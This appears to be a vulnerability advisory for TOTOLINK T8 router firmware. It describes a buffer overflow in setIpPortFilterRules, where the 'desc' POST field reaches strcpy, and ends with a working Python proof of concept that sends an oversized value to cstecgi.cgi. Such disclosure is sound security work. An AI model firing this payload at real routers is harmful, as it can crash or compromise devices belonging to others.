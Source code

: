 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setIpPortFilterRules` function. The `v9` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902131425613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902131425613.png)

![image-20240902130934198](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130934198.png)

![image-20240902130952204](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130952204.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setIpPortFilterRules",
"addEffect":9,
"ip":"1",
"sPort":"1",
"ePort":"1",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
